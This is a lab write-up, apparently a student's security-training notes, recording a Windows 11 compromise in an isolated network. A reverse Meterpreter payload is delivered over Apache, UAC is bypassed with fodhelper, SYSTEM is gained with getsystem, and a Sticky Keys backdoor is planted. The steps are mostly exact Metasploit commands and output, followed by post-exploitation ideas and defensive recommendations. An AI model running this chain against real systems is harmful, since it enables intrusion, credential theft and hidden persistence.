





# UAC Bypass & Privilege Escalation Lab

Date: 2026-08-18
Attacker Machine: Parrot OS (10.10.1.13)
Target: Windows 11 (10.10.1.11)
Tools: MSFVenom, Metasploit, Apache, bypassuac_fodhelper
Environment: VMware isolated lab network

---

## Objective
Generate a malicious payload using MSFVenom, deliver it
to a Windows 11 target via Apache, catch a Meterpreter
shell, bypass UAC using fodhelper, escalate to SYSTEM
and establish persistence using Sticky Keys.

---

## What is UAC Bypass?
User Account Control is a Windows security feature that
prevents unauthorized changes to the system. UAC bypass
techniques exploit trusted Windows binaries to execute
malicious code with elevated privileges without triggering
the UAC prompt.

The attack flow:
1. Generate payload with MSFVenom
2. Target downloads payload from Apache server
3. Attacker catches Meterpreter shell
4. Background session and load bypassuac module
5. Run bypassuac_fodhelper to elevate privileges
6. Use getsystem to gain NT AUTHORITY\SYSTEM
7. Add Sticky Keys persistence

---

## Step 1 — Generate Payload Using MSFVenom

A reverse Meterpreter payload was generated targeting
port 444 and saved as windows.exe for delivery.

    msfvenom -p windows/meterpreter/reverse_tcp \
    lhost=10.10.1.13 lport=444 -f exe > \
    /home/attacker/Desktop/windows.exe

    Payload size: 354 bytes
    Final size of exe file: 73802 bytes

---

## Step 2 — Target Downloads Payload via Browser

The payload was hosted on the Apache web server at
10.10.1.13/share. The target browsed to the URL and
downloaded windows.exe directly.

    http://10.10.1.13/share/

Files available:
- Registry.exe
- Test.exe
- Windows.exe
- windows.exe

---

## Step 3 — Configure Listener and Catch Shell

Metasploit multi/handler was configured to catch the
incoming reverse shell. After target executed windows.exe
Meterpreter session 1 was opened. Sysinfo confirmed the
target and getuid confirmed Windows_11\Admin access.

    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    set lhost 10.10.1.13
    set lport 444
    run

    [*] Meterpreter session 1 opened at 2026-08-18 07:29:28

    sysinfo
    Computer: WINDOWS_11
    OS: Windows 11 23H2 (10.0 Build 22631)

    getuid
    Server username: Windows_11\Admin

---

## Step 4 — Background Session and Load UAC Bypass

Session was backgrounded and bypassuac modules were
searched. bypassuac_fodhelper was selected and options
were reviewed before execution.

    background
    search bypassuac
    use exploit/windows/local/bypassuac_fodhelper
    show options

---

## Step 5 — Execute fodhelper UAC Bypass

bypassuac_fodhelper was configured and executed against
session 1. UAC was confirmed at Default level and bypassed.
Meterpreter session 2 was opened with elevated privileges.
getsystem then escalated to full NT AUTHORITY\SYSTEM.

    set session 1
    set LHOST 10.10.1.13
    set TARGET 0
    exploit

    [+] UAC is set to Default
    [+] BypassUAC can bypass this setting, continuing...
    [*] Meterpreter session 2 opened at 2026-08-18 07:33:11

    getsystem -t 1
    ...got system via Named Pipe Impersonation (In Memory/Admin)

    getuid
    Server username: NT AUTHORITY\SYSTEM

---

## Step 6 — Add Sticky Keys Persistence

Session 2 was backgrounded and the sticky_keys post module
was loaded. This adds a backdoor that launches cmd.exe
with SYSTEM privileges when SHIFT is pressed 5 times at
any Windows login or UAC prompt.

    use post/windows/manage/sticky_keys
    set session 2
    exploit

    [+] Session has administrative rights, proceeding.
    [+] Sticky keys successfully added. Launch the exploit
        at an RDP or UAC prompt by pressing SHIFT 5 times.

Active sessions:
    1   meterpreter   Windows_11\Admin @ WINDOWS_11
    2   meterpreter   NT AUTHORITY\SYSTEM @ WINDOWS_11

---

## Attack Summary

| Step | Action | Result |
|------|--------|--------|
| 1 | MSFVenom payload created | windows.exe 73802 bytes |
| 2 | Target downloaded payload | File served at /share |
| 3 | Meterpreter session 1 caught | Windows_11\Admin |
| 4 | Session backgrounded | bypassuac_fodhelper loaded |
| 5 | fodhelper UAC bypass run | Session 2 elevated |
| 6 | getsystem executed | NT AUTHORITY\SYSTEM |
| 7 | Sticky keys added | SHIFT x5 backdoor active |

---

## Critical Findings

| Finding | Detail | Impact |
|---------|--------|--------|
| Initial access gained | Windows_11\Admin | CRITICAL |
| UAC bypassed | bypassuac_fodhelper | CRITICAL |
| SYSTEM privileges gained | NT AUTHORITY\SYSTEM | CRITICAL |
| Sticky keys persistence | SHIFT x5 at login screen | CRITICAL |
| Two active sessions | Admin and SYSTEM both open | CRITICAL |

---

## What Can Be Done With This Access

With NT AUTHORITY\SYSTEM access:
- Dump all password hashes with hashdump
- Disable Windows Defender permanently
- Access all files and directories
- Create hidden admin accounts
- Pivot to other machines on the network
- Lock out legitimate users
- Trigger sticky keys backdoor via RDP

---

## Lessons Learned

1. UAC set to Default is not sufficient protection
   against bypass techniques like fodhelper
2. Named Pipe Impersonation in getsystem is reliable
   against most unpatched Windows targets
3. Sticky keys backdoor works even on locked screens
   and RDP sessions making it a powerful persistence
4. Two sessions allow attacker to maintain access even
   if one session drops
5. All of this was achieved without triggering Windows
   Defender

---

## Defensive Recommendations

- Set UAC to Always Notify highest level
- Monitor sticky keys registry and binary modifications
- Deploy EDR with behavioral analysis
- Restrict PowerShell and cmd access at login screen
- Monitor for multiple concurrent Meterpreter sessions
- Enable Windows Defender and keep signatures updated
- Use Privileged Access Workstations for admins

---

## Tools Used
- MSFVenom (Metasploit Framework)
- Metasploit multi/handler
- Apache Web Server
- bypassuac_fodhelper
- post/windows/manage/sticky_keys
- Parrot Security OS

---

## Next Steps
- Run hashdump to extract all password hashes
- Attempt lateral movement to other machines
- Exploit sticky keys backdoor via RDP
- Deploy additional persistence mechanism
